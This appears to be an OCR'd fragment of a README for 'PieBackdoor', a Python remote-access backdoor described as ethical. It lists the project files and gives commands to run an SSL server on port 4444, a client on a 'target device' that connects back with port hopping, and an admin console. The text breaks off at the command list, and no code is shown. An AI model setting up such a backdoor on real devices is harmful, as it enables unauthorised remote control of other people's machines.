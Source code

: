 Place server.crt and server.key in the project directory.



Directory Structure:

PieBackdoor/
├── server.py
├── ethical_backdoor.py
├── admin_control.py
├── system_ops.py
├── network_ops.py
├── admin_controls.py
├── communication.py
├── server.crt
├── server.key
├── documentation.html
├── LICENSE
├── README.md



Test Environment:





Configure firewalls (e.g., iptables on Android, Windows Defender Firewall).



Optionally set up a test web server (e.g., Apache/Nginx).



Use virtual machines or an isolated network.

Usage

Run the Server (Control Machine)

python server.py

Listens on 0.0.0.0:4444 (or random port if blocked) with SSL.

Run the Client (Target Device)

python ethical_backdoor.py client <server_ip>

Connects with SSL, using dynamic port hopping.

Run the Admin Interface (Control Machine)

python admin_control.py





Enter server IP and port (default 4444).



Commands:


